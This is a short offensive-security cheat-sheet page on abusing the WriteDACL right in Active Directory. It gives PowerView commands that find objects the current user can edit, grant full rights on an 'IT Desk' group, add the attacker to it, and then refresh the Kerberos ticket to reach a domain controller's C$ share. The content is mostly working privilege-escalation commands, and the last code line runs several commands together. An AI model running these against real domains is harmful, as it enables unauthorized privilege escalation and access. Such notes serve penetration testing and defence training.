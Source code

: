 # Abuse WriteDACL

Find domain groups that current user has `WriteDACL` access right to:

```text
PowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} | ? {$_.ActiveDirectoryRights -like "*WriteDacl*"}
```

The attacker can take the full control of discovered groups and then add a users to them:

```text
PowerView3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PowerView3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

#### Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```text
Cmd > klist purgeCmd > gpupdate /forceCmd > dir \\dc1.megacorp.local\c$
```



